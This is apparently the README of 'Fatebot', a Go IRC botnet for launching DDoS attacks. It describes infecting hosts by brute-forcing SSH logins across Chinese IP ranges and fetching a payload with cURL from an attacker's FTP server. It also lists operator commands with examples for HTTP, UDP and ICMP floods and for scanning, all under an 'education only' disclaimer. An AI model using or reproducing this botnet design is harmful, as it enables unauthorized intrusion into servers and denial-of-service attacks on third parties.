 <h2>Attention Attention!!! My english is terrible. I'm so sorry about that :( </h2>

# Fatebot
This is my first IRC bot for launch ddos attack, Write on Go language. For education purpose only. Please test it on your lab, And i create this for join university in the future not for attack anyone server with out any permission!!!

<strong>IRC commands are in the bottom of The page.</strong>

<img src="img/drfate.jpg" alt="Dr Fate">

# Infect
The infect function of this botnet is scanning by SSH port<strong>(default as 22)</strong> and login by dictionary attack.
like username "admin" and password "123456". <strong>(Scan by range of CHN network. You can add more if you want.)</strong>

This botnet use cURL to get payload from FTP server, so... please prepair your FTP server first, It very important for infect process.

<strong>[SCAN PROCESS]</strong>
<img src="img/scan process.png" alt="SSH scan">


# DDoS
Raw socket programming is really hard for me and I don't know about exploit development,
But raw socket need it(exploit) to get a permission for run it. So in <strong>The volumetric</strong> all of them are a simple udp and icmp flood. so DDoS function is really hard and challenge for me.

# IRC Commands
<ul>
  <li><strong>?http [url]</li></strong>
    <ul>
      <li>?http https://target.com/</li>
      - Flood HTTP get request to target.
    </ul>
</ul>

<ul>
  <li><strong>?udp [ip] [size]</li></strong>
    <ul>
      <li>?udp 192.168.1.1 500</li>
      - Flood UDP packets by random src and dst port to target. Min and Max of Buffer is 1 - 700bytes.
    </ul>
</ul>

<ul>
  <li><strong>?icmp [ip]</li></strong>
    <ul>
      <li>?udp 192.168.1.1</li>
      - Flood ICMP packets to target.(I know it's a old school DoS, lol.)
    </ul>
</ul>

<ul>
  <li><strong>?scan [ftp server]</li></strong>
    <ul>
      <li>?scan ftp://192.186.1.1/payload</li>
      - Scan CHN ip range on SSH port and get payload with cURL.
    </ul>
</ul>

<ul>
  <li><strong>?kill</li></strong>
    <ul>
      - Remove payload on bot machine and left the server.
    </ul>
</ul>

<ul>
  <li><strong>?stop.ddos</li></strong>
    <ul>
      - Stop ddos attacking.
    </ul>
</ul>

<ul>
  <li><strong>?stop.scan</li></strong>
    <ul>
      - Stop scanning.
    </ul>
</ul>
